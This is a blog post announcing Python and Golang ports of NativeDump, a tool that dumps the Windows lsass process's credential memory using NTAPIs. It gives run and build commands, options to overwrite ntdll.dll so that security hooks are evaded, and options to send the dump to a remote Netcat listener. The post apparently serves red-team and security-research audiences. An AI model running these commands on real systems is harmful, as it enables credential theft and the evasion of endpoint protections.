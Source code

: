```yaml
---
layout: post
title: NativeDump update - Python and Golang ports
excerpt_separator: <!--more-->
---
```


NativeDump allows to dump the lsass process using only NTAPIs. The original project is written in .NET and has been ported to Python and Golang, allowing file exfiltration and 3 methods for ntdll overwrite (both optional).

<!--more-->


<br>

--------------------------

# "python-flavour" branch

Code: [python-flavour](https://github.com/ricardojoserf/NativeDump/tree/python-flavour)

This branch implements the same functionality as the main branch using Python3: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
python nativedump.py [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python1.png)


As an alternative, you can compile it to a single binary using pyinstaller with the "-F" flag:

 ```
pyinstaller -F nativedump.py
```

Or using Nuitka with the "--onefile" flag:

```
nuitka --onefile nativedump.py
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python2.png)


You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python4.png)

<br>


--------------------------

# "golang-flavour" branch

Code: [golang-flavour](https://github.com/ricardojoserf/NativeDump/tree/golang-flavour)

This branch implements the same functionality as the main branch using Golang: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
go run nativedump.go [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![golang1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang1.png)


As an alternative, you can compile it to a binary:

 ```
go build
```

![golang2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang2.png)

You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang4.png)

<br>